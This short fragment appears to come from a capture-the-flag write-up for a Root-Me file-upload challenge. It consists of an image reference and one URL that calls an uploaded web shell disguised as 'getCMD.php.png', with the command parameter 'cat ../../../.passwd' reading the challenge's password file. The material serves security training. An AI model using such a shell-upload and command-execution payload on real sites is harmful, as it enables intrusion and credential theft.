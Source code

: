 
http://challenge01.root-me.org/web-serveur/ch20/galerie/upload/fmqksg11kkl309h2ec7bh7oak0/getCMD.php.png?cmd=cat ../../../.passwd
